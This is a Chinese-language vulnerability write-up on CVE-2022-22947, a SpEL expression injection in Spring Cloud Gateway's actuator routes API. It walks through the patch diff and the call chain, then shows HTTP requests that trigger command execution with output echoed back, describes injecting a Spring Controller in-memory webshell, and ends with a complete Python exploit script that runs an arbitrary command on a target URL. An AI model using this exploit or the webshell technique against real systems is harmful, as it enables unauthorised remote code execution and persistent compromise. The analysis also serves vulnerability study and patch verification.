










# Spring Cloud Gateway表达式注入 远程命令执行漏洞 CVE-2022-22947

## 漏洞描述

Spring Cloud Gateway 是基于 Spring Framework 和 Spring Boot 构建的 API 网关，它旨在为微服务架构提供一种简单、有效、统一的 API 路由管理方式。

近日VMware官方发布了Spring Cloud Gateway存在SPEL表达式注入漏洞CVE-2022-22947，可导致未授权远程命令执行漏洞：

## 漏洞影响

<a-checkbox checked>Spring Cloud Gateway < 3.1.1</a-checkbox></br>

<a-checkbox checked>Spring Cloud Gateway < 3.0.7</a-checkbox></br>

<a-checkbox checked>Spring Cloud Gateway 其他已不再更新的版本</a-checkbox></br>

## 网络测绘

app="vmware-SpringBoot-Framework"</a-checkbox></br>

## 漏洞复现

可以从Github下载存在漏洞的版本v3.1.0，然后用idea载入：



<br/>

从漏洞通报来看，这是一个SPEL表达式注入漏洞，对比补丁`org.springframework.cloud.gateway.support.ShortcutConfigurable#getValue`：




<br/>

新版本将`getValue`函数中的`StandardEvaluationContext`替换成了`SimpleEvaluationContext`，从而修复了SPEL表达式注入。寻找`getValue`函数被调用的情况




<br/>

只在枚举值`ShortcutType`的三个取值（`DEFAULT`、`GATHER_LIST`、`GATHER_LIST_TAIL_FLAG`）中被调用：


<br/>

三个调用类似，以`DEFAULT`为例，继续寻找调用关系：


一直定位到`RouteDefinitionLocator#convertToRoute`：



<br/>

尝试根据`RouteDefinition`提取`GatewayFilter`列表。这里的调用和路由以及过滤规则有关，查看Spring Cloud Gateway路由相关的接口定义：


<br/>

定位处理控制器`org.springframework.cloud.gateway.actuate.AbstractGatewayControllerEndpoint`：



<br/>

POST输入参数为`RouteDefinition`类型，与上面调用链中的`convertToRoute`函数的输入参数类型一致。

查看`RouteDefinition`定义：



<br/>

注意列表型变量`FilterDefinition`的定义：


<br/>

参考`RouteDefinition`变量的定义很容易出构造POST测试请求：

```powershell
POST /actuator/gateway/routes/123456 HTTP/1.1
Host: 127.0.0.1:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 166

{
  "id": "id",
  "filters": [{
    "name": "123456",
    "args": {}
  }],
  "uri": "http://localhost"
}
```

触发断点：


<br/>

首先会通过函数`validateRouteDefinition`对参数进行了检查：


<br/>

进入验证函数`isAvailable`：


代码中会验证`Filter`的`name`属性是否合法，合法列表整理如下：

```powershell
class org.springframework.cloud.gateway.filter.factory.AddRequestHeaderGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.MapRequestHeaderGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.AddRequestParameterGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.AddResponseHeaderGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.rewrite.ModifyRequestBodyGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.DedupeResponseHeaderGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.rewrite.ModifyResponseBodyGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.CacheRequestBodyGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.PrefixPathGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.PreserveHostHeaderGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.RedirectToGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.RemoveRequestHeaderGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.RemoveRequestParameterGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.RemoveResponseHeaderGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.RewritePathGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.RetryGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.SetPathGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.SecureHeadersGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.SetRequestHeaderGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.SetRequestHostHeaderGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.SetResponseHeaderGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.RewriteResponseHeaderGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.RewriteLocationResponseHeaderGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.SetStatusGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.SaveSessionGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.StripPrefixGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.RequestHeaderToRequestUriGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.RequestSizeGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.RequestHeaderSizeGatewayFilterFactory
```

<br/>

可以随意选择其中的一个`GatewayFilterFactory`，比如利用`Retry`来修改请求包：

```powershell
POST /actuator/gateway/routes/123456 HTTP/1.1
Host: 127.0.0.1:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 181

{
  "id": "1234567",
  "filters": [{
    "name": "Retry",
    "args": {
"a":"payload"
   }
  }],
  "uri": "http://localhost"
}
```

<br/>

请求后显示路由创建成功。可以通过refresh来生效：

```json
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:9000
Connection: close
```

<br/>

成功触发表达式解析：


### 武器化一：命令回显

<br/>通过调试发现，在refresh路由时会调用对应`GatewayFilter`的`apply`函数。当成功创建新的路由后，可以通过GET请求获取配置信息：


<br/>回顾前面合法的`GatewayFilter`列表，我们发现存在一个名为`AddResponseHeaderGatewayFilterFactory`的子类：




<br/>`apply`函数会将配置信息写入HTTP响应数据包中，所以可以尝试利用`AddResponseHeaderGatewayFilterFactory`来构造命令回显请求：


<br/>refresh执行SPEL表达式，将结果写入HTTP响应流，然后访问创建的路由，可以将命令执行的结果回显出来：



<br/>最后可以发送DELETE请求将创建的新路由删除。

### 武器化二：Spring Controller内存马

<br/>CVE-2022-22947是一个SPEL表达式注入漏洞，并且框架基于Spring Framework实现，所以我们考虑通过漏洞注入Spring内存马。Spring可以在Controller、Interceptor等不同层级构建不同的内存马

```json
本文尝试构造Spring Controller内存马。Spring可以通过`RequestMappingHandlerMapping`来完成`@Contoller`和`@RequestMapping`注解，这里有两个比较关键的类：

`RequestMappingInfo`：一个封装类，对一次http请求中的相关信息进行封装
`HandlerMethod`：对Controller的处理请求方法的封装，里面包含了该方法所属的bean、method、参数等对象

函数`RequestMappingHandlerMapping#registerHandlerMethod`可以将Controller函数与`RequestMappingInfo`对象关联起来。首先寻找`RequestMappingHandlerMapping`对象。我们可以尝试在内存中搜索，借助`java-object-searcher`搜索，结果如下：
```


<br/>除了上面通过`Thread`的方式提取`RequestMappingInfo`之外，通过观察SPEL表达式解析的代码发现上下文环境存在`beanFactory`的对象：




<br/>存有337个Bean对象信息，可以利用下面代码辅助打印结果：

```json
for(int i = 0; i<((DefaultListableBeanFactory) beanFactory).beanDefinitionNames.toArray().length; i++){
    System.out.println(((DefaultListableBeanFactory) beanFactory).beanDefinitionNames.toArray()[i]);
}
```




<br/>直接利用SPEL上线文环境中的`beanFactory`即可获取`RequestMappingHandlerMapping`对象。SPEL表达式中可以通过`@`来获取`BeanResolver`配置的beans对象：


<br/>接下来创建内存马的过程就很简单了，最终效果就是将如下自定义的`Controller`子类通过SPEL表达式注入到内存并通过`RequestMappingHandlerMapping`对象完成路由注册：


<br/>构造完新的payload后，发送数据包：


<br/>refresh后将注入内存马：


<br/>最后同样记得发送DELETE请求将创建的路由删除。

## 漏洞POC

<a-alert type="success" message="https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947/blob/main/spring_cloud_RCE.py" description="" showIcon>
</a-alert>
<br/>

```python
import requests
import json
import sys


def exec(url):

    headers1 = {
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/json'
    }

    headers2 = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded'
    }

    ## command to execute replace "id" in payload

    payload = '''{\r
      "id": "hacktest",\r
      "filters": [{\r
        "name": "AddResponseHeader",\r
        "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\\"id\\"}).getInputStream()))}"}\r
        }],\r
      "uri": "http://example.com",\r
      "order": 0\r
    }'''

   

    
    re1 = requests.post(url=url + "/actuator/gateway/routes/hacktest",data=payload,headers=headers1,json=json)
    re2 = requests.post(url=url + "/actuator/gateway/refresh" ,headers=headers2)
    re3 = requests.get(url=url + "/actuator/gateway/routes/hacktest",headers=headers2)
    re4 = requests.delete(url=url + "/actuator/gateway/routes/hacktest",headers=headers2)
    re5 = requests.post(url=url + "/actuator/gateway/refresh" ,headers=headers2)
    print(re3.text)


if __name__ == "__main__":
  print('''   ██████  ██      ██ ████████        ████   ████   ████   ████         ████   ████   ████     ██  ██████
  ██░░░░██░██     ░██░██░░░░░        █░░░ █ █░░░██ █░░░ █ █░░░ █       █░░░ █ █░░░ █ █░░░ █   █░█ ░░░░░░█
 ██    ░░ ░██     ░██░██            ░    ░█░█  █░█░    ░█░    ░█      ░    ░█░    ░█░█   ░█  █ ░█      ░█
░██       ░░██    ██ ░███████  █████   ███ ░█ █ ░█   ███    ███  █████   ███    ███ ░ ████  ██████     █ 
░██        ░░██  ██  ░██░░░░  ░░░░░   █░░  ░██  ░█  █░░    █░░  ░░░░░   █░░    █░░   ░░░█  ░░░░░█     █  
░░██    ██  ░░████   ░██             █     ░█   ░█ █      █            █      █        █       ░█    █   
 ░░██████    ░░██    ░████████      ░██████░ ████ ░██████░██████      ░██████░██████  █        ░█   █    
  ░░░░░░      ░░     ░░░░░░░░       ░░░░░░  ░░░░  ░░░░░░ ░░░░░░       ░░░░░░ ░░░░░░  ░         ░   ░     
 ██                   ██                 ██                              
░██       ██   ██    ░██                ░██                              
░██      ░░██ ██     ░██ ██   ██  █████ ░██  ██  ██████  ███████   █████ 
░██████   ░░███      ░██░██  ░██ ██░░░██░██ ██  ██░░░░██░░██░░░██ ██░░░██
░██░░░██   ░██    ██ ░██░██  ░██░██  ░░ ░████  ░██   ░██ ░██  ░██░███████
░██  ░██   ██    ░░  ░██░██  ░██░██   ██░██░██ ░██   ░██ ░██  ░██░██░░░░ 
░██████   ██      ██ ███░░██████░░█████ ░██░░██░░██████  ███  ░██░░██████
░░░░░    ░░      ░░ ░░░  ░░░░░░  ░░░░░  ░░  ░░  ░░░░░░  ░░░   ░░  ░░░░░░ 
usage: python3 test.py url
''')
  if(len(sys.argv)>1):
    url = sys.argv[1]
    exec(url)
  else:
    exit()
```

## 参考文章

<a-alert type="success" message="https://mp.weixin.qq.com/s/lKKOUvWqU1Qpexus5u_3Uw" description="" showIcon>
</a-alert>
<br/>